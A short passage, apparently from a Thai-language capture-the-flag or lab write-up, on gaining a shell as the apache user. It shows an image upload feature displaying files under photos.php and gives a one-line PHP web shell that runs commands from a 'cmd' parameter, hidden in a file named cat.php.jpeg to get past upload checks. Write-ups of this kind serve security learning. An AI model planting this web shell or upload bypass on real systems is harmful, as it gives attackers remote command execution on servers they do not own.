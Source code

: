 เมื่อลองทดสอบ upload ภาพของเราจะถูกแสดงอยู่ภายใต้ photos.php 

![](./IMG/005.png)

# Shell as apache 
## upload webshell 

```php
<?php echo "START<br/><br/>\n\n\n"; system($_GET["cmd"]); echo "\n\n\n<br/><br/>END"; ?>
```

รูปด้านล่างเป็นไฟล์ cat.php.jpeg และทำการเพิ่ม php shell ไปในไฟล์
![](./IMG/006.png)

จะเห็นได้ว่าเราสามารถ Upload เข้าไปได้ 
